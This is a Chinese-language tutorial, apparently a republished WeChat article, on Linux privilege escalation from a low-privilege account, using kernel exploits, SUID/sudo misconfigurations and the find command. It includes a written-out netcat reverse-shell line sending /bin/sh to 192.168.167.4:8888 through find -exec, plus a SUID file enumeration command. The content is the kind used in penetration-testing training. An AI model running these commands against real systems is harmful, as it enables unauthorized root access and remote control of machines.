 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H5E4Pz-NJVde5kUItjIfnw)

Linux 提权，前提是拿到了一个低权限的账号，能上传和下载文件，主要思路有：

1、内核提权。网上各种大佬的 payload 很多，关键在于要能找到利用哪个 exp 以及具体如何利用。省力点的方法是用 searchsploit 或者 linux-exploit-suggester.sh 来查找，熟悉之后难度也不大。

2、suid 提权。这里也包含了 sudo 这种方式，两种方法的思路都是一样的，区别在于 suid 针对单个程序，sudo 针对某个用户。这类提权方式的主要思路是：管理员授权普通用户去执行 root 权限的操作，而不需要知道 root 的密码，合理的利用拥有 root 权限的程序，就可以实现提权。通常遇到的情况有：

（1）直接提权，sudo -i 就可以切换到 root 了；

（2）修改系统文件，如计划任务文件、用户文件、密码文件、sudoers 文件等，本文把这个作为彩蛋后续也讲一下；

（3）修改程序本身，如果对程序有写权限的话，直接把反弹的 bash 命令写到程序里，运行程序即可提权；

（4）对程序进行溢出，部分程序通过端口可以实现和用户的交互，这也就存在可以溢出的前提。

总的来说，suid 提权难度没有上限和下限，简单的直接一个 sudo -i 命令，难的涉及到溢出，相当于在挖 0day。

3、第三方应用提权，某些程序使用 root 权限启动，如果第三方服务或者程序存在漏洞或者配置问题，可以被利用来获得 root 权限。相比前几种方式，难度属于中间，不像内核提权套路很固定，也不像 suid 提权方法很灵活多样。

本文总结了常见的一些第三方应用的提权方法，所以的方法都经过实际测试，拿出来与大家相互交流和学习。（为避免文章篇幅过于冗长，每个应用具体的提权原理就不详细介绍了，感兴趣的自行查阅相关文档）

find 提权
-------

### 实例 1

一个典型的例子是将 SUDO 权限分配给 find 命令，以便其他用户可以在系统中搜索特定的文件相关文件。尽管管理员可能不知道’find’命令包含用于执行命令的参数，但攻击者可以以 root 特权执行命令。  
拿到普通用户权限之后，使用 sudo –l 查看下， 查看当前是否存在当前用户可以调用 sudo 的命令，如下图，当前用户可以执行 find 命令，然后通过 find 命令获取 root 权限。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibChSomuudhCw448J3tbdnu66errGlzRaKJycJqaibxaYt1zPtLNKsDvw/640?wx_fmt=jpeg)

nc 正向反弹

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibsxoBBTpB0tibMnwqjiaW1a8icEpybgxQLY1CnGssuFuxib96pADfZqw3bQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibmpqrpVsuzPfSL4yKfes8LmCCEYCUB9q0FT1ibBsytibnLZnnKsicIcpBQ/640?wx_fmt=jpeg)

nc 反向反弹

```
find /var/www/dirty -exec nc 192.168.167.4 8888 -t -e /bin/sh \
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibNoSpdB03mEmjia8JQ5ntGCDhOG1EnYiaRQekGcV1gNK2t9oZmKGoJCUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibVGkVVQaWjHURbYbHpCIq1MUTdDnX10FPRatIay9ZSGbDu4JV97z2WA/640?wx_fmt=jpeg)

### 实例 2

查找具有特殊权限 SUID 的文件  

```
find / -perm -u=s -type f 2>/dev/null
```
